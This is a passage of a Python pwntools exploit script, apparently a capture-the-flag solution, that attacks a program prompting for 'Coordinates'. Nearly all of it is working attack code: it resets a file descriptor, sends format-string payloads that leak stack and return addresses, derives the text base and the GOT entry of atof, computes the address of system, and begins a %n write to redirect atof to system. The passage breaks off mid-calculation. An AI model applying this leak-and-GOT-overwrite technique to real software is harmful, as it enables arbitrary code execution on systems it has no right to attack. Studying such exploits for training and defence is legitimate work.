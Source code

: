 ```python
print t.recvuntil("Selection: ")
log.info("writing fd back...")
t.send("11111111\x03\n") # write the fd back to 3 so the rest of our input won't get into sub_BCB()
print t.recvuntil("Selection: ")
t.sendline("3")
t.recvuntil("Coordinates: ")
log.success("choice 3 enabled success")

x = 51.492137
y = -0.192878
pass_xy = str(x)+','+str(y)

payload = pass_xy

# constructing format string payload
for i in xrange(1, 20):
    a = ".%"+str(i)+"$p"
    payload += a

log.info("sending payload...")
t.sendline(payload)
s = t.recvuntil("Coordinates: ")
print s
nptr = int(s.split(".")[13], 16) # get the stack address
ret_addr = nptr + 0x406 # return address' location

log.success("nptr: "+ hex(nptr))
log.success("ret: "+ hex(ret_addr))

payload = pass_xy
payload += "A" # padding
payload += p32(ret_addr)
payload += ".%20$p"
payload += ".%20$s." # leak the return address
t.sendline(payload)

s = t.recvuntil("Coordinates: ")
print s
WTF = u32(s.split(".")[6]) # return address
text_base = WTF - 0x1491
atof_got = text_base + 0x5080
log.success("text_base: "+ hex(text_base))
log.success("atof_got: "+ hex(atof_got))

payload = pass_xy
payload += "A"
payload += p32(atof_got)
payload += ".%20$p"
payload += ".%20$s."  # leak atof's got
t.sendline(payload)

s = t.recvuntil("Coordinates: ")
print s
atof_addr = u32(s.split(".")[6][0:4])
system_addr = atof_addr + 59728
log.success("atof addres: "+ hex(atof_addr))
log.success("system addres: "+ hex(system_addr))

byte1 = system_addr & 0xFF
byte2 = (system_addr & 0xFFFF00) >> 8

# use %n to overwrite atof's got entry into system's address
fmt1 = byte1 - 28
```